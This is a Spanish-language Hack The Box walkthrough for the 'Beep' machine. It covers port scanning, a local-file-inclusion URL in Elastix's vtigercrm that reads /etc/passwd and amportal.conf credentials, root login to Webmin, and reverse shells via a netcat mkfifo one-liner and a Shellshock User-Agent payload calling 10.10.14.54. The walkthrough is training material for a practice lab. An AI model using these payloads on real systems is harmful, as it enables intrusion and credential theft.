 # Hack The Box - Beep


## Exploración

Todos los puertos, rapido y silencioso
<pre>
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.7 -oG allPorts
</pre>
 
Puertos especificos
<pre>
nmap -sCV -p22,25,80,110,111,143,443,881,993,995,3306,4190,4445,4559,5038,10000 10.10.10.7 -oN targeted

## Acceso

Como sale el puerto 80 comprobamos por el navegador y nos redirige a una Web de login con **elastix*-

Buscamos en searchesploy:
<pre>
	searchsploit elastix
</pre>

Vemos que hay opciones de File inclusion:
<pre>
searchsploit -x php/webapps/37637.pl
</pre>

Vemos hay hay un bug:
<pre>
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
</pre>

Hacemos una prueba en el navegador para traernos el /etc/passwd:
<pre>
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action
</pre>

La primera opción devuelve un fichero con credenciales:
<pre>
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
</pre>


Vemos en el targeted que hay un WebMin en el puerto 10000. Podemos entrar como  root y la credencial encontrada.

Podemos ir bajo Other Command Shell y ejecutar  una reverse shield. Previamente nos ponemos a la escucha.

<pre>
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.54 443 >/tmp/f
</pre>

Entramos como root. Podemos ver las flags. 

Hay que configurar la consola.


## Otra manera: *ShellInjection* a cgi

Con bursuite
<pre>
UserAgent: () { :; } /bin/bash - i >& /dev/tcp/10.10.14.54/443 0>&1
</pre>

## Consola

No me ha funcionado. S4vitar utiliza el cambio de imagen de la empresa para crear una php.

<pre>
CTLR + Z
stty raw -echo; fg
reset
export TERM=xterm
export shell=bash
stty rows 51 columns 189
</pre>



## busqueda de flags
<pre>
find \-name user.txt | xargs cat
find \-name root.txt | xargs cat
</pre>
